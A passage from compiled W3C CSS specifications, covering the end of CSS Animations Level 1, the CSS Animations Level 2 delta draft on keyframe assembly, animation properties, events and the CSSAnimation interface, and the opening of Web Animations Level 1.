: The keyframe selector of the rule to be found: a comma-separated list of percentage values between 0% and 100% or the keywords `from` or `to` which resolve to 0% and 100%, respectively.

  The number and order of the values in the specified keyframe selector must match those of the targeted keyframe rule(s). The match is not sensitive to white space around the values in the list.

Return Value:

**`CSSKeyframeRule`**

: The found rule.

No Exceptions

> **Example:** For example, given the following animation:
>
> ```
> @keyframes colorful-diagonal-slide {
>
>   from {
>     left: 0;
>     top: 0;
>   }
>
>   10% {
>     background-color: blue;
>   }
>
>   10% {
>     background-color: green;
>   }
>
>   25%, 75% {
>     background-color: red;
>   }
>
>   100% {
>     left: 100px;
>     top: 100px;
>   }
>
> }
> ```
>
> Assuming the variable `anim` holds a reference to a CSSKeyframesRule object for this animation, then:
>
> ```
> anim.deleteRule('10%');
> var tenPercent = anim.findRule('10%');
> ```
>
> will start by deleting the last 10% rule i.e. the green background color rule; then find the remaining blue background rule and return it into `tenPercent`.
>
> The following:
>
> ```
> var red = anim.findRule('75%');
> ```
>
> will set `red` to `null`. The full selector for the red background color rule must be used instead:
>
> ```
> var red = anim.findRule('25%,75%');
> ```
>
> Since `from` maps to 0% and `to` maps to 100%, we can find these rules using either value:
>
> ```
> var from = anim.findRule('0%'); // Returns from { left: 0; top: 0; } rule
> var to = anim.findRule('to');   // Returns 100% { left: 100px; top: 100px; } rule
> ```

#### 6.4.  Extensions to the `GlobalEventHandlers` Interface Mixin {#css-animations-1:interface-globaleventhandlers}

This specification extends the `GlobalEventHandlers` interface mixin from HTML to add event handler IDL attributes for [animation events](#css-animations-1:events) as defined in [§ 5.3 Event handlers on elements, Document objects, and Window objects](#css-animations-1:event-handlers-on-elements-document-objects-and-window-objects).

##### 6.4.1.  IDL Definition {#css-animations-1:interface-globaleventhandlers-idl}

```webidl
partial interface mixin GlobalEventHandlers {
  attribute EventHandler onanimationstart;
  attribute EventHandler onanimationiteration;
  attribute EventHandler onanimationend;
  attribute EventHandler onanimationcancel;
};
```

### 11. Other open issues {#css-animations-1:other-open-issues}

> **Issue:** Need to [specify how keyframes interact](https://lists.w3.org/Archives/Public/www-style/2015Jul/0391.html).

### 12.  Working Group Resolutions that are pending editing {#css-animations-1:wg-resolutions-pending}

*This section is informative and temporary.*

The editors are currently behind on editing this spec. The following working group resolutions still need to be edited in:

- 2014-09-09 minutes (Antibes f2f)

  - Issue(7335): Detail how/when keyframe values are computed; using [G.beta in dbaron’s mail](http://lists.w3.org/Archives/Public/www-style/2014Aug/0132.html)
  - Agreed that both transitions and animations animate all properties. css-transitions to define animation of non-interoperable/discrete values. They take their starting values below 50% timing function progress, and end values above
  - Dynamic changes to animation properties/keyframes. Tab to propose resolution. ([Bug 14713](https://www.w3.org/Bugs/Public/show_bug.cgi?id=14713))
  - Negative animation-delay values apply against the active duration of the animation i.e. (animation-duration*animation-iteration-count). The delay can thus swallow iterations for which no iteration event will be fired. The start/end events are still fired. Even when delay == (-1*active_duration)
  - Fire animation start/end events when animation-duration is zero, with 0 elapsedTime
  - If animation-iteration-count is infinite and duration is 0, treat the iteration-count as if it was finite and run a 0s second (option A in [Brian’s mail](http://lists.w3.org/Archives/Public/www-style/2014Sep/0056.html))
  - If an animation with a negative animation delay is initially paused, the start event still fires
- 2012-10-29 minutes

  - Change the animation properties to be dynamically changeable
  - @keyframes can be dynamically changed
  - When you encounter duplicate animations names, last one wins.
  - Make *animations* transition *all* properties. Unless otherwise specified, discrete properties take their starting values below 50% timing function progress, and end values above 50% timing function progress.
- 2012-12-12 minutes and intermediate comments and 2012-12-19 minutes

  - Animations only run if they contain at least one valid keyframe rule ([Bug](https://www.w3.org/Bugs/Public/show_bug.cgi?id=15251))
  - When an element changes from display:none to display: non-none, animations start immediately ([Bug](https://www.w3.org/Bugs/Public/show_bug.cgi?id=14785))
  - An initially-paused animation is still started (fires start events etc.) ([Bug](https://www.w3.org/Bugs/Public/show_bug.cgi?id=14774))
  - Animations can be paused during their delay phase, which freezes the remaining delay to be applied after it unpauses ([Bug](https://www.w3.org/Bugs/Public/show_bug.cgi?id=14774))
  - animation-play-state has the same list behavior as the other animation properties, matching the length of animation-name ([Bug](https://www.w3.org/Bugs/Public/show_bug.cgi?id=14786))
- 2013-02-20 minutes

  - Øyvind’s clarification accepted
  - keyframe rules cascade
  - mark pseudoElement at-risk
- 2013-05-30 minutes

  - expectations on animations in non-interactive media
- 2014-01-27 minutes

  - remove text about waiting for document load

---

## CSS Animations Module Level 2 {#css-animations-2}

- **Shortname:** `css-animations-2`
- **Editor's Draft:** [https://drafts.csswg.org/css-animations-2/](https://drafts.csswg.org/css-animations-2/)
- **Published TR:** [https://www.w3.org/TR/css-animations-2/](https://www.w3.org/TR/css-animations-2/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-08-18
- **Diff Specification Over:** [CSS Animations Module Level 1 (`css-animations-1`)](#css-animations-1)

### 1. Delta specification {#css-animations-2:delta}

This is a delta specification, meaning that it currently contains only the differences from CSS Animations Level 1 [CSS3-ANIMATIONS]. Once the Level 1 specification is closer to complete, it will be merged with the additions here into a complete level 2 specification.

### 2. Animations {#css-animations-2:animations}

Changes to any of the animation properties defined in this specification cause the corresponding `CSSAnimation` object and its associated objects to be updated according to the correspondence between these properties and Web Animations concepts defined in [§ 3 Assembling Keyframes](#css-animations-2:keyframes).

However, if the author modifies the animation using the Web Animations programming interface, the changes from the programming interface take precedence as follows:

- After a successful call to `setKeyframes()` on the `KeyframeEffect` associated with a `CSSAnimation`, any subsequent change to matching `@keyframes` rules or the resolved value of the `animation-timing-function` property for the target element will not be reflected in that animation.

  However, if the last matching `@keyframes` rule is removed the animation must still be canceled.
- After a successful call to `updateTiming()` on the `KeyframeEffect` associated with a `CSSAnimation`, for each property included in the `timing` parameter, any subsequent change to a corresponding animation property will not be reflected in that animation.

  For example, calling `cssAnimation.effect.updateTiming({ duration: 1000 })` would cause subsequent changes to `animation-duration` to be ignored whilst changes to `animation-delay` would still be reflected in the `KeyframeEffect`’s timing.
- After a successful call to `play()` or `pause()` on a `CSSAnimation`, any subsequent change to the `animation-play-state` will no longer cause the `CSSAnimation` to be played or paused as defined in [§ 4.5 The animation-play-state property](#css-animations-2:animation-play-state).
- After a successful call to `reverse()` on a `CSSAnimation` or after successfully setting the `startTime` on a `CSSAnimation`, if, as a result of that call the play state of the `CSSAnimation` changes to or from the paused play state, any subsequent change to the `animation-play-state` will no longer cause the `CSSAnimation` to be played or paused as defined in [§ 4.5 The animation-play-state property](#css-animations-2:animation-play-state).

  The requirement for a change to or from the paused state ensures that even after calling `reverse()` or setting the `startTime` on a running animation, the animation continues to observe changes in `animation-play-state`.
- After successfully setting the `effect` of a `CSSAnimation` to `null` or some `AnimationEffect` other than the original `KeyframeEffect`, all subsequent changes to animation properties other than `animation-name`, `animation-play-state`, or `animation-timeline` will not be reflected in that animation. Similarly, any change to matching `@keyframes` rules will not be reflected in that animation. However, if the last matching `@keyframes` rule is removed the animation must still be canceled.

> **Note:** the reference to a successful call in the above rules is necessary to ensure that when an exception is thrown by any of these methods, the override behavior is *not* applied.

#### 2.1. Owning element {#css-animations-2:owning-element-section}

The **owning element** of an animation refers to the element or pseudo-element to which the `animation-name` property was applied that generated the animation.

If the `display` property of an element is set to `none` and its `display` value would compute to `none` when ignoring the Transitions and Animations cascade origins, then terminate running animations with this owning element. If an element has a `display` of `none` and its `display` value had computed to `none` when ignoring the Transitions and Animations cascade origins, updating `display` to a value other than `none` will start all animations applied to the element by the `animation-name` property.

> **Note:** In practice, this means that an animation to a `display` value of `none` will not terminate running animations unless the style also computes to `none` without the effect of the animations.

If an animation generated using the markup defined in this specification is later disassociated from that markup by an update to the computed value of the `animation-name` property on the owning element, the animation is disassociated from its owning element (that is, it has no owning element from that point forwards).

> **Note:** In the example below, `animation`’s initial owning element is `elem`. `animation` is disassociated from `element` through an update to the computed value of `elem`’s `animation-name` property.
>
> ```javascript
> elem.style.animation = 'spin 1s';
> let animation = elem.getAnimations()[0]; // animation's owning element is elem
> elem.style.animation = ""; // animation no longer has an owning element
> ```
>
> Note that although the owning element is often equal to the target element of an animation’s associated effect, this is not always the case. The following example demonstrates some of the situations where these two elements may differ.
>
> ```javascript
> elem.style.animation = 'move 1s';
> let animation = elem.getAnimations()[0];
> // animation.effect.target == elem == animation's owning element
>
> animation.effect.target = elem2;
> // animation.effect.target == elem2 != animation's owning element
>
> animation.effect = null;
> // animation.effect?.target is undefined != animation's owning element
> ```

#### 2.2. Animation composite order {#css-animations-2:animation-composite-order}

Animations generated from the markup defined in this specification have an animation class of ‘CSS Animation’.

CSS Animations *with* an owning element have a *later* composite order than CSS Transitions but an *earlier* composite order than animations without a specific animation class.

Within the set of CSS Animations *with* an owning element, two animations *A* and *B* are sorted in composite order (first to last) as follows:

1. If the owning element of *A* and *B* differs, sort *A* and *B* by tree order of their corresponding owning elements. With regard to pseudo-elements, the sort order is as follows:

  - element
  - ::marker
  - ::before
  - any other pseudo-elements not mentioned specifically in this list, sorted in ascending order by the Unicode codepoints that make up each selector
  - ::after
  - element children
2. Otherwise, sort *A* and *B* based on their position in the computed value of the `animation-name` property of the (common) owning element.

When determining the composite order in order to sort [animation events](#css-animations-2:events) where either or both of the events is an `animationcancel` event, treat the CSS Animation(s) for which the `animationcancel` event was generated as having an owning element corresponding to the owning element in use at the moment when the CSS Animation was cancelled. Furthermore, use the position of the animation in the `animation-name` property in effect at the time when the CSS Animation was cancelled sorting such that positions of cancelled animations sort before positions of animations that have not been cancelled.

The composite order of CSS Animations *without* an owning element is based on their position in the global animation list.

> **Issue:** This differs from the behavior defined for transitions. We should probably sort transitions first, then animation, then use the global animation list. The reason being that when developer tools etc. hang on to orphaned animations and transitions in order to replay them, they should maintain roughly the same composite order.

CSS Animations generated using the markup defined in this specification are *not* added to the global animation list when they are created. Instead, these animations are appended to the global animation list at the first moment when they transition out of the idle play state after being disassociated from their owning element. CSS Animations that have been disassociated from their owning element but are still idle do not have a defined composite order.

> **Note:** this behavior relies on the fact that disassociating an animation from its owning element always causes it to enter (or remain) in the idle play state.

### 3.  Assembling Keyframes {#css-animations-2:keyframes}

#### 3.1.  Declaring Keyframes: the `@keyframes` rule {#css-animations-2:keyframe-rules}

See [CSS Animations 1 § 3 Declaring Keyframes](#css-animations-1:keyframes).

#### 3.2.  Processing Keyframes {#css-animations-2:keyframe-processing}

For each animation effect defined by the *N*th item in the coordinated value list of the `animation-*` properties on target (pseudo-)element *element*, its associated keyframes are generated as follows:

1. **Set Defaults:**

  - Let *default timing function* be the corresponding computed value of `animation-timing-function` on *element*.
  - Let *default composite* be the corresponding computed value of `animation-composition` on *element*.
  - Let *keyframes* be an empty sequence of keyframe objects, each possessing a *keyframe offset*, *keyframe timing function*, *keyframe composite*, and *keyframe values*.
  - Let *animated properties* be an empty set of CSS property names.
2. **Collect Declared Keyframes:**

  1. Find the last `@keyframes` at-rule in document order with `<keyframes-name>` matching the corresponding `animation-name` value *name*.

     If there is no `@keyframes` at-rule with `<keyframes-name>` matching *name* (or if *name* is `none`), abort this procedure. In this case no animation is generated, and any existing animation matching *name* is canceled.
  2. Group together all `<keyframe-block>` declarations that share the same specified `<keyframe-selector>` (treating `from` as `0%` and `to` as `100%`), last declared `animation-timing-function` computed value (defaulting to *default timing function* if there is no such declaration), and last declared `animation-composition` computed value (defaulting to *default composite* if there is no such declaration).
  3. For each such group of matching `<keyframe-block>` declarations, ordered by their earliest <keyframe-block> in the sorted order:

    1. Cascade together all of its declaration blocks such that for each CSS property (except those that are “not animatable”, which must be ignored) the last declaration among all its `<keyframe-block>` declarations takes precedence. [CSS-CASCADE-4]

       > **Note:** The cascade will expand shorthand properties into their sub-properties and map together corresponding property pairs in each logical property group according to the *element*’s computed writing mode.
    2. Append to *keyframes* a new empty keyframe with the group’s *keyframe offset*, *keyframe timing function*, and *keyframe composite*. Give its *keyframe values* the set of declared values resulting from this cascade.
    3. Add each property name that was added to its `cssRules` to *animated properties*.
3. **Generate Initial and Final Frames:**

  1. Find or create the *initial keyframe*, a keyframe with a *keyframe offset* of `0%`, *default timing function* as its *keyframe timing function*, and *default composite* as its *keyframe composite*.
  2. For any property in *animated properties* that is not otherwise present in a keyframe with an offset of `0%` or one that would be positioned earlier in the used keyframe order, add the computed value of that property on *element* to *initial keyframe*’s *keyframe values*.
  3. If *initial keyframe*’s *keyframe values* is not empty, prepend *initial keyframe* to *keyframes*.
  4. Repeat for *final keyframe*, using an offset of `100%`, considering keyframes positioned *later* in the used keyframe order, and *appending* to *keyframes*.
4. **Sort Frames:**

  - The **specified order** of *keyframes* is the order resulting from the steps above, i.e. document order with duplicate keyframes collapsed to the earliest position.
  - The **computed order** of *keyframes*—​which is the order returned by `getKeyframes()`—​is found by shifting any keyframes whose offset was specified as a `<percentage>`, `from` keyword, or `to` keyword to the front of the list (after the generated *initial keyframe*, if any), and performing a stable sort on these keyframes by their *keyframe offset*s.
  - The **used order** of *keyframes*—​which is the order used to interpolate and compute the actual animation frames—​is found by attaching the *keyframes* onto the animation effect’s timeline assuming an iteration count of 1 and ordering them from earliest to latest, breaking ties by using the computed keyframe order.

   > **Issue:** Any specific requirements on sorting computed keyframes introduced by this spec should be integrated into [Web Animations § 5.3.3 Calculating computed keyframes](#web-animations-1:calculating-computed-keyframes). Any specific requirements on used keyframes introduced by this spec should be integrated into [Web Animations § 5.3.4 The effect value of a keyframe effect](#web-animations-1:the-effect-value-of-a-keyframe-animation-effect). The above description of the distinction between these sets of keyframes should be moved to an informative note.

   > **Note:** Although the computed keyframe order sorts keyframes with `<percentage>` offsets, it maintains keyframes specified with a `<timeline-range-name>` in their specified keyframe order—​after any <percentage> keyframes (other than a generated *final keyframe*), even if these come later in the used keyframe order.

### 4.  Declaring Animations {#css-animations-2:animation-definition}

CSS Animations are defined by binding keyframes to an element using the `animation-*` properties. These list-valued properties, which are all longhands of the `animation` shorthand, form a coordinating list property group with `animation-name` as the coordinating list base property and each item in the coordinated value list defining the properties of a single animation effect.

See [CSS Values 4 § A Coordinating List-Valued Properties](#css-values-4:linked-properties) for how the individual `animation-*` property values coordinate.

#### 4.1. The `animation-duration` property {#css-animations-2:animation-duration}

| Field | Value |
| --- | --- |
| Name: | **animation-duration** |
| [Value:](#css-values-4:value-defs) | [ auto \| `<time [0s,∞]>` ]# |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item either a time or the keyword `auto` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

The `animation-duration` property specifies the iteration duration of the animation’s associated animation effect.

****auto****

: For time-driven animations, equivalent to `0s`.

  For scroll-driven animations, equivalent to the duration necessary to fill the timeline in consideration of `animation-range`, `animation-delay`, and `animation-iteration-count`. See [Scroll-driven Animations § 4.1 Finite Timeline Calculations](#scroll-animations-1:finite-attachment).

****`<time [0s,∞]>`****

: For time-driven animations, specifies the length of time that an animation takes to complete one cycle. A negative `<time>` is invalid.

  For scroll-driven animations, treated as `auto`.

If the used `animation-duration` is `0s`, the animation itself still occurs (instantaneously). The animation’s start and end events are still fired. If `animation-fill-mode` is set to `backwards` or `both`, the first frame of the animation (as defined by `animation-direction`) will be displayed during the `animation-delay`; and if `animation-fill-mode` is set to `forwards` or `both`, the last frame of the animation (as defined by `animation-direction`) will be displayed after the `animation-delay`. However, if `animation-fill-mode` is set to `none` the keyframes of the animation animation will have no noticeable effect.

For backwards-compatibility with Level 1, when the computed value of `animation-timeline` is `auto` (i.e. only one list value, and that value being `auto`), the resolved value of `auto` for `animation-duration` is `0s` whenever its used value would also be `0s`.

#### 4.2. The `animation-timing-function` property {#css-animations-2:animation-timing-function}

The `animation-timing-function` is used to determine the timing function applied to each keyframe as defined in [§ 3 Assembling Keyframes](#css-animations-2:keyframes).

#### 4.3. The `animation-iteration-count` property {#css-animations-2:animation-iteration-count}

The `animation-iteration-count` property specifies the iteration count of the animation’s associated animation effect.

#### 4.4. The `animation-direction` property {#css-animations-2:animation-direction}

The `animation-direction` property specifies the playback direction of the animation’s associated animation effect.

#### 4.5. The `animation-play-state` property {#css-animations-2:animation-play-state}

The `animation-play-state` is used to pause or play the animation.

If at any time, including when the animation is first generated, the resolved value of `animation-play-state` corresponding to an animation is newly `running`, the implementation must run the procedure to play an animation for the given animation with the *auto-rewind flag* set to false.

If at any time, including when the animation is first generated, the resolved value of `animation-play-state` corresponding to an animation is newly `paused`, the implementation must run the procedure to pause an animation for the given animation.

The above requirements do not apply if the animation’s play state is being overridden by the Web Animations API as described in [§ 2 Animations](#css-animations-2:animations).

#### 4.6. The `animation-delay-start` property {#css-animations-2:animation-delay-start}

The `animation-delay-start` property specifies the start delay of the animation’s associated animation effect, which defines when the animation will start. It allows an animation to begin execution some time after it is applied, or to appear to have begun execution some time *before* it is applied.

| Field | Value |
| --- | --- |
| Name: | **animation-delay-start** |
| [Value:](#css-values-4:value-defs) | `<time>`# |
| [Initial:](#css-cascade-6:initial-values) | 0s |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a duration |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

****`<time>`****

: The `<time>` defines how long of a delay there is between the start of the animation (when the animation is applied to the element via these properties) and when it begins executing. A delay of `0s` (the initial value) means that the animation will execute as soon as it is applied.

  A negative delay is **valid**. Similar to a delay of `0s`, it means that the animation executes immediately, but is automatically progressed by the absolute value of the delay, as if the animation had started the specified time in the past, and so it appears to start partway through its active duration. If an animation’s keyframes have an implied starting value, the values are taken from the time the animation starts, not some time in the past.

#### 4.7. The `animation-delay-end` property {#css-animations-2:animation-delay-end}

The `animation-delay-end` property specifies the end delay of the animation’s associated animation effect, which defines when the animation will start when it is reversed.

| Field | Value |
| --- | --- |
| Name: | **animation-delay-end** |
| [Value:](#css-values-4:value-defs) | `<time [0s,∞]>`# |
| [Initial:](#css-cascade-6:initial-values) | 0s |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a duration |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

> **Issue:** Should animation-delay-end support negative values? If so, what would it mean?

> **Issue:** Should animation-delay-end be added to the animation shorthand?

#### 4.8. The `animation-delay` shorthand {#css-animations-2:animation-delay}

| Field | Value |
| --- | --- |
| Name: | **animation-delay** |
| [Value:](#css-values-4:value-defs) | [ `<'animation-delay-start'>` `<'animation-delay-end'>`? ]# |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `animation-delay` property is a shorthand that sets `animation-delay-start` and `animation-delay-end` together in a single declaration. Specifying a single value will set the `animation-delay-start` to that value, and will reset `animation-delay-end` to its initial value, for backward compatibility with the `animation-delay` previous longhand behavior.

#### 4.9. The `animation-fill-mode` property {#css-animations-2:animation-fill-mode}

The `animation-fill-mode` property specifies the fill mode of the animation’s associated animation effect.

#### 4.10. The `animation-composition` property {#css-animations-2:animation-composition}

The `animation-composition` property defines the composite operation used when multiple animations affect the same property simultaneously.

| Field | Value |
| --- | --- |
| Name: | **animation-composition** |
| [Value:](#css-values-4:value-defs) | `<single-animation-composition>`# |
| [Initial:](#css-cascade-6:initial-values) | replace |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a keyword as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

**<single-animation-composition>** = replace | add | accumulate

The values of `animation-composition` have the meaning defined for the corresponding values of the composite operation defined in Web Animations [WEB-ANIMATIONS].

When specified in a keyframe, `animation-composition` defines the composite operation to use for each property specified in that keyframe until the next keyframe specifying each property.

> **Example:** For example, the following stylesheet defines two different animations targeting the `scale` property.
>
> ```
> @keyframes heartbeat {
>   from {
>     scale: 1;
>     animation-timing-function: ease-out;
>   }
>   30% {
>     scale: 1.3;
>   }
> }
> .heartbeat {
>   animation: heartbeat 0.3s 2s infinite;
> }
>
> @keyframes throb {
>   50% {
>     scale: 1.8;
>   }
> }
> .icon:mouseover {
>   animation: throb 0.4s add;
> }
> ```
>
> If these two animations are applied to the same element, normally only one animation would apply, but by specifying `add` as the `animation-composition` on the second animation, the result of the two animations will be combined.
>
> Since CSS Transitions [CSS3-TRANSITIONS] have a lower composite order, it is possible to use `animation-composition` to combine CSS Animations with underlying transitions as in the following example.
>
> ```
> .icon {
>   filter: blur(20px);
>   transition: filter 0.5s;
> }
> .icon:hover {
>   filter: blur(0px);
>   animation: brightness-pulse 3s infinite add;
> }
>
> @keyframes brightness-pulse {
>   0% {
>     scale: 1.1;
>     filter: brightness(130%);
>   }
>   10% {
>     scale: 1;
>     filter: brightness(100%);
>   }
> }
> ```
>
> > **Issue:** Create pictures of these examples and verify they make sense.

#### 4.11. The `animation-timeline` property {#css-animations-2:animation-timeline}

The `animation-timeline` property defines the timeline used with the animation.

> **Note:** This specification does not introduce any syntax to specify animation timelines but instead it is up to others specifications such as Scroll-linked Animations [SCROLL-ANIMATIONS] to do so.

| Field | Value |
| --- | --- |
| Name: | **animation-timeline** |
| [Value:](#css-values-4:value-defs) | `<single-animation-timeline>`# |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item either the keyword `none`, the keyword `auto`, a case-sensitive css identifier, a computed `scroll()` function, or a computed `view()` function |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

```css
<single-animation-timeline> = auto | none | <dashed-ident> | <scroll()> | <view()>
```

The `animation-timeline` property is similar to properties like `animation-name` and `animation-duration` in that it can have one or more values, each one imparting additional behavior to a corresponding animation on the element, with the timelines matched up with animations as described [here](#css-animations-1:animation-name).

Each value has type `<single-animation-timeline>`, whose possible values have the following effects:

****auto****

: The animation’s timeline is a `DocumentTimeline`, more specifically the default document timeline.

****none****

: The animation is not associated with a timeline.

****`<dashed-ident>`****

: If a named scroll progress timeline or view progress timeline is in scope on this element, use the referenced timeline as defined in [Scroll-driven Animations §  Declaring a Named Timeline’s Scope: the timeline-scope property](#scroll-animations-1:timeline-scope).

  Otherwise the animation is not associated with a timeline.

****`<scroll()>`****

: Use the scroll progress timeline indicated by the given `scroll()` function. See [Scroll-driven Animations § 2.2.1 The scroll() notation](#scroll-animations-1:scroll-notation).

****`<view()>`****

: Use the view progress timeline indicated by the given `view()` function. See [Scroll-driven Animations § 3.3.1 The view() notation](#scroll-animations-1:view-notation).

> **Issue:** Make it easier to use `animation-name` to select the timeline when `animation-timeline` is not specified. Allowing `animation-name` to be used for selecting timeline enables most common animations to have to use a single name for both their keyframes and timeline which is simple and ergonomics. The `animation-timeline` property gives authors additional control to independently select keyframes and timeline if necessary.

When multiple `animation-*` properties are set simultaneously, `animation-timeline` is updated first, so e.g. a change to `animation-play-state` applies to the simultaneously-applied timeline specified in `animation-timeline`.

#### 4.12. The `animation` shorthand property {#css-animations-2:animation-shorthand}

The `animation` shorthand property syntax is as follows:

**<single-animation>** = `<'animation-duration'>` || `<easing-function>` || `<'animation-delay-start'>` || `<single-animation-iteration-count>` || `<single-animation-direction>` || `<single-animation-fill-mode>` || `<single-animation-play-state>` || [ none | `<keyframes-name>` ] || `<single-animation-timeline>`

### 5. Animation Events {#css-animations-2:events}

#### 5.1. Event dispatch {#css-animations-2:event-dispatch}

> **Note:** this is a more general description of event dispatch than that of CSS Animations Level 1 [CSS3-ANIMATIONS] since it must account for the possibility of animations being seeked or reversed using the Web Animations API [WEB-ANIMATIONS].

The target for a CSS animation event is the animation’s owning element. If there is no owning element, no CSS animation events are dispatched (although the animation playback events defined in Web Animations are still dispatched at the corresponding `CSSAnimation` object).

For the purpose of determining which events to dispatch, the [phases](#web-animations-1:animation-effect-phases-and-states) defined in the Web Animations model are used. These definitions apply to an animation effect, however, for the purpose of dispatching events, we consider a CSS Animation to have the same phase as its associated effect. For example, a CSS Animation is in the before phase if its associated effect is in the before phase.

A CSS Animation that does not have an associated effect is considered to be in the idle phase if its current time is unresolved, in the before phase if its current time is less than zero, and in the after phase otherwise.

Similarly, subsequent references to the start delay, active duration, current iteration, iteration start, and iteration duration of a CSS animation should be understood to refer to the corresponding properties of the animation’s associated effect.

For calculating the `elapsedTime` of each event, the following definitions are used:

- **interval start** = `max(min(-start delay, active duration), 0)`
- **interval end** = `max(min(associated effect end - start delay, active duration), 0)`

Each time a new animation frame is established and the animation does *not* have a pending play task or pending pause task, the events to dispatch are determined by comparing the animation’s phase before and after establishing the new animation frame as follows:

| Change | Events dispatched | **Elapsed time** (ms) |
| --- | --- | --- |
| idle or before → active | `animationstart` | interval start |
| idle or before → after [٭](#css-animations-2:multiple-events-note) | `animationstart` | interval start |
| `animationend` | interval end |  |
| active → before | `animationend` | interval start |
| active → active *and* the current iteration of the animation’s associated effect has changed since the previous animation frame | `animationiteration` | (See below) [†](#css-animations-2:animation-iteration-elapsed-time) |
| active → after | `animationend` | interval end |
| after → active | `animationstart` | interval end |
| after → before [٭](#css-animations-2:multiple-events-note) | `animationstart` | interval end |
| `animationend` | interval start |  |
| *not* idle and *not* after → idle | `animationcancel` | The active time of the animation at the moment it was cancelled calculated using a fill mode of both. |

٭ Where multiple events are listed for a state change, all events are dispatched in the order listed and in immediate succession.

† The elapsed time for an `animationiteration` event is defined as follows:

1. Let *previous current iteration* be the current iteration from the previous animation frame.
2. If *previous current iteration* is greater than current iteration, let *iteration boundary* be `current iteration + 1`, otherwise let it be current iteration.
3. The elapsed time is the result of evaluating `(iteration boundary - iteration start) × iteration duration)`.

Since the elapsed time defined in the table and procedure above is expressed in milliseconds, it must be divided by 1,000 to produce a value in seconds before being assigned to the `elapsedTime` member of the `AnimationEvent`.

#### 5.2. The `AnimationEvent` Interface {#css-animations-2:interface-animationevent}

##### 5.2.1. IDL Definition {#css-animations-2:interface-animationevent-idl}

Add `animation` to the `AnimationEvent` interface and `AnimationEventInit` dictionary as follows:

```webidl
[Exposed=Window]
partial interface AnimationEvent {
  readonly attribute CSSAnimation? animation;
};

partial dictionary AnimationEventInit {
  CSSAnimation? animation = null;
};
```

##### 5.2.2. Attributes {#css-animations-2:interface-animationevent-attributes}

Add attribute descriptions as follows:

****`animation`**,  of type CSSAnimation, readonly, nullable**

: The CSS Animation that fired the event.

### 6. DOM Interfaces {#css-animations-2:interface-dom}

#### 6.1. The CSSAnimation interface {#css-animations-2:the-CSSAnimation-interface}

```webidl
[Exposed=Window]
interface CSSAnimation : Animation {
  readonly attribute CSSOMString animationName;
};
```

****`animationName`**,  of type CSSOMString, readonly**

: The key used to find matching keyframes rules that define the associated effect at the point when the animation was created. This is the value of the `animation-name` property that caused this object to be generated.

#### 6.2. Requirements on pending style changes {#css-animations-2:requirements-on-pending-style-changes}

Various operations may affect the computed values of properties on elements. User agents may, as an optimization, defer recomputing these values until it becomes necessary. However, all operations included in programming interface defined in this specification, as well as those operations defined in Web Animations [WEB-ANIMATIONS] that may return objects or animation state defined by this specification, must produce a result consistent with having fully processed any such pending changes to computed values.

> **Note:** As an example, in the following code fragment, when the specified style of `elem` is initially updated, a user agent may defer recalculating the computed value of the `animation` property.
>
> However, the `getAnimations()` method called on `elem` is specified by Web Animations and can return `CSSAnimation` objects as defined in this specification. Hence, as result of the requirements in this section, the user agent must calculate the updated value of `elem`’s `animation` property and create the requested `CSSAnimation` object before returning its result.
>
> ```javascript
> elem.style.animation = 'fadeOut 1s';
> elem.getAnimations()[0].pause();
> ```
>
> Similarly, reading `playState` may depend on pending style changes.
>
> ```javascript
> elem.style.animation = 'fadeOut 1s paused';
> const anim = elem.getAnimations()[0];
> elem.style.animationPlayState = 'running';
> console.log(anim.playState); // Should be 'running'.
> ```

---

## Web Animations Module Level 1 {#web-animations-1}

- **Shortname:** `web-animations-1`
- **Editor's Draft:** [https://drafts.csswg.org/web-animations-1/](https://drafts.csswg.org/web-animations-1/)
- **Published TR:** [https://www.w3.org/TR/web-animations-1/](https://www.w3.org/TR/web-animations-1/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-11-11

### 1. Introduction {#web-animations-1:introduction}

*This section is non-normative*

This specification defines a model (the **Web Animations model**) for supporting animation and synchronization on the Web platform. It is intended that other specifications will build on this model and expose its features through declarative means.

In addition, this specification also defines a programming interface to the model (the **Web Animations API**, defined in [§ 6 Programming interface](#web-animations-1:programming-interface)) that may be implemented by user agents that provide support for scripting.

#### 1.1. Use cases {#web-animations-1:use-cases}

